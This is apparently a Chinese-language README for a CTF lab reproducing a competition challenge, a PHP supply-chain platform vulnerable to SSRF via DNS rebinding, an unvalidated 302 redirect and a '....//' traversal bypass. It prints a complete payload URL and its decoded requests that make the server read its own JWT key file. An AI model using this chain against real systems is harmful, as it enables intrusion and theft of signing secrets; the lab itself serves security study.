

# SupplyLink CTF Lab

> 源码来自 **第四届"数信杯"网络安全大赛 团队线下赛** 的一道实操题（附件 `www.zip`，一套 PHP 供应链协同平台）。本仓库额外提供本地复现实验环境，可完整打通题目的 SSRF 攻击链。

## 目录结构

```
├── source/   # www.zip 原始题目源码（public/ internal/ src/ scripts/ dns/）
└── lab/      # 本地复现：启动/停止脚本、攻击脚本、单步调试工具、实验指南
```

## 一句话概括

基于 TOCTOU 的 SSRF：**check**（校验 URL 时域名解析成公网 IP，顺利放行）与 **use**（实际抓取时同一域名解析成 `127.0.0.1`）之间存在时间差，两次 DNS 解析结果不同——校验看的是"门口"，攻击打的是"屋里"。再借 302 跳转后不重验、`....//` 绕过目录穿越，最终让服务器自己 `include` 任意文件并以 zip 归档回传。

## 关键 Payload

```
http://<任意的字符串_p>.cache.rebind.huanyutech.cn:8080/jump.php?url=http%3A%2F%2F127.0.0.1%3A8081%2Fdebug%2Fpreview.php%3Ffile%3D....%2F%2F....%2F%2F....%2F%2Fopt%2Fsupplylink%2Fconfig%2Fjwt.key
```

解码后就是两次请求拼接：

```
# 第 1 次（走 8080 公网代理缓存，命中 DNS Rebinding 域名）
http://momo77.cache.rebind.huanyutech.cn:8080/jump.php
    ?url=

# 第 2 次（jump.php 302 跳转的目标，由服务器自己跟随访问）
http://127.0.0.1:8081/debug/preview.php
    ?file=....//....//....//opt/supplylink/config/jwt.key
```

## 它是怎么一步步"逃离"限制的（与源码逐条对应）




## 本地复现

仓库自带一键实验环境（Linux / macOS），clone 下来 `sudo bash lab/start_lab.sh` 即可开打，完整玩法、单步追踪、排错口诀见 [lab/README.md](lab/README.md)。


> 仅供学习与研究，请勿用于真实目标。
